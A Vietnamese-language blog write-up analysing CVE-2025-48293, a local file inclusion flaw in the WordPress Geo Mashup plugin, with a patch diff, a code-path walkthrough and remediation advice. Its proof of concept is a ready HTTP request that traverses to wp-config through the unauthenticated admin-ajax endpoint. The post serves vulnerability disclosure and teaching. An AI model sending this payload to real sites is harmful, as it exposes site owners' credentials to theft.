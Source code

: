 ```yaml
---
title: CVE-2025-48293 Analysis & POC
description: Security Vulnerability in WordPress Geo Mashup Plugin.
date: 2025-10-13 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, lfi]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

## CVE & Basic Info
Plugin **Geo Mashup** phiên bản **≤ 1.13.16** chứa lỗ hổng **Local File Inclusion** cho phép kẻ tấn công không cần xác thực điều khiển tham số file trong lệnh `include/require`, từ đó chèn hoặc đọc các tệp cục bộ trên máy chủ (ví dụ file cấu hình chứa credential), dẫn tới rò rỉ thông tin nhạy cảm và trong một số cấu hình có thể dẫn tới thực thi mã.

* **CVE ID**: [CVE-2025-48293](https://www.cve.org/CVERecord?id=CVE-2025-48293)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 1.13.16
* **Patched Versions**: 1.13.17
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Geo Mashup Plugin](https://wordpress.org/plugins/geo-mashup/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Geo Mashup**: **1.13.16** (vulnerable) và **1.13.17** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

**Bản lỗi**:

```php {filename="geo-query.php v1.13.16" hl_lines=[2]}
public static function generate_object_html( ) {
    $template_base = ( isset( $_GET['template'] ) ) ? $_GET['template'] : '';
    // other logc
    load_template( GeoMashup::locate_template( $template_base ) );
}
```

`$template_base` được lấy trực tiếp từ `$_GET['template']` **không qua bất kỳ kiểm tra/sanitize nào**.

Kết quả được truyền vào `GeoMashup::locate_template()` rồi dùng [`load_template()`](https://developer.wordpress.org/reference/functions/load_template/) - khả năng kẻ tấn công kiểm soát đường dẫn file để include.

**Bản vá**:

```php {filename="geo-query.php v1.13.17" hl_lines=[2]}
public static function generate_object_html( ) {
    $template_base = ( isset( $_GET['template'] ) ) ? sanitize_key($_GET['template']) : '';
    // other logic
    load_template( GeoMashup::locate_template( $template_base ) );
}
```

[`sanitize_key()`](https://developer.wordpress.org/reference/functions/sanitize_key/) được áp dụng cho `template` => loại bỏ các ký tự không an toàn, ngăn `../`, `\`, và các ký tự đặc biệt làm giảm nguy cơ **path traversal** và **LFI** từ tham số `template`.

### Vulnerable Code 
Ta phân tích logic trong `GeoMashup::locate_template()` có ảnh hưởng gì đến `$template_base`

```php {filename="geo-mashup.php v1.13.16" hl_lines=[3,10,11,12]}
public static function locate_template( $template_base ) {
    $template = locate_template( array("geo-mashup-$template_base.php") );
 
    if ( empty( $template ) || !is_readable( $template ) ) {
        $template = path_join( GEO_MASHUP_DIR_PATH, "default-templates/$template_base.php" );
    }
    return $template;
}
```

`$template` được gán lại giá trị bằng cách gọi `locate_template()` thuộc file **template.php** với đối số `geo-mashup-$template_base.php`

```php {filename="template.php v1.13.16" hl_lines=[]}
function locate_template( $template_names, $load = false, $load_once = true, $args = array() ) {
	global $wp_stylesheet_path, $wp_template_path;

	if ( ! isset( $wp_stylesheet_path ) || ! isset( $wp_template_path ) ) {
		wp_set_template_globals();
	}

	$is_child_theme = is_child_theme();

	$located = '';
	foreach ( (array) $template_names as $template_name ) {
		if ( ! $template_name ) {
			continue;
		}
		if ( file_exists( $wp_stylesheet_path . '/' . $template_name ) ) {
			$located = $wp_stylesheet_path . '/' . $template_name;
			break;
		} elseif ( $is_child_theme && file_exists( $wp_template_path . '/' . $template_name ) ) {
			$located = $wp_template_path . '/' . $template_name;
			break;
		} elseif ( file_exists( ABSPATH . WPINC . '/theme-compat/' . $template_name ) ) {
			$located = ABSPATH . WPINC . '/theme-compat/' . $template_name;
			break;
		}
	}

	if ( $load && '' !== $located ) {
		load_template( $located, $load_once, $args );
	}

	return $located;
}
```

Các logic liên quan đến sự tồn tại của file khi concat với `$template_name` được xử lý, nếu không tồn tại thì trả về chuỗi rỗng `''`

{{< figure src="debug1.png" caption="Các logic liên quan đến sự tồn tại của file" >}}

Khi attack gửi `$_GET['template']` chứa `../` thì mặc định file luôn không tồn tại, luôn trả về `''`

Quay trở lại `GeoMashup::locate_template()`, khi `$template_name` empty và không tồn tại (`!is_readable($template)`) thì được gán lại giá trị và trả về.

```php
const string GEO_MASHUP_DIR_PATH = "/srv/www/wordpress/wp-content/plugins/geo-mashup"

GEO_MASHUP_DIR_PATH.default-templates/$template_base.php
```

👉 `GeoMashup::locate_template()` không ảnh hưởng đến `$template_base` do ta kiểm soát, ta tiến hành tìm cách kích hoạt sự kiện này

```php {filename="geo-query.php v1.13.17" hl_lines=[4]}
if ( ( isset( $_GET['output'] ) and 'json' == $_GET['output'] ) or empty( $_GET['object_ids'] ) ) {
	GeoMashupQuery::generate_location_json( );
} else {
	GeoMashupQuery::generate_object_html( );
}
```

`generate_object_html()` chỉ được gọi khi `$_GET['output']` không được truyền và `$_GET['object_ids']` không empty.

**geo-query.php** chứa logic trên được gọi trong **geo-mashup.php**

{{< figure src="search1.png" caption="**geo-query.php** được gọi trong **geo-mashup.php**" >}}

Hàm `geo_query` là callback của action hook **Unauthenticated**

```php
add_action( 'wp_ajax_nopriv_geo_mashup_query', array( __CLASS__, 'geo_query') );
```

Khi truy cập endpoint `/wp-admin/admin-ajax.php` với param `action=geo_mashup_query` thì callback `geo_query` được gọi.

## Exploit
### Proof of Concept (PoC)
1. Thêm code vào `wp-config.php` để thử nghiệm

```php
echo "Payload";
```

2. Gửi **GET request** với **LFI** payload

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../wp-config HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: green
Priority: u=0, i
```

**Result**:

{{< figure src="result.png" caption="Kết quả LFI thành công" >}}

## Conclusion

CVE-2025-48293 là LFI do dùng input `template` không kiểm soát khi ghép vào đường dẫn fallback, cho phép path traversal (`..`) và include file ngoài dự định. Đã vá trong **v1.13.17** bằng `sanitize_key()`.

## Key takeaways

* Không dùng input user trực tiếp để build path cho include.
* Dùng **whitelist** hoặc `sanitize_key()` + `realpath()` kiểm tra.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress Geo Mashup Plugin <= 1.13.16 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/geo-mashup/vulnerability/wordpress-geo-mashup-plugin-1-13-16-local-file-inclusion-vulnerability)
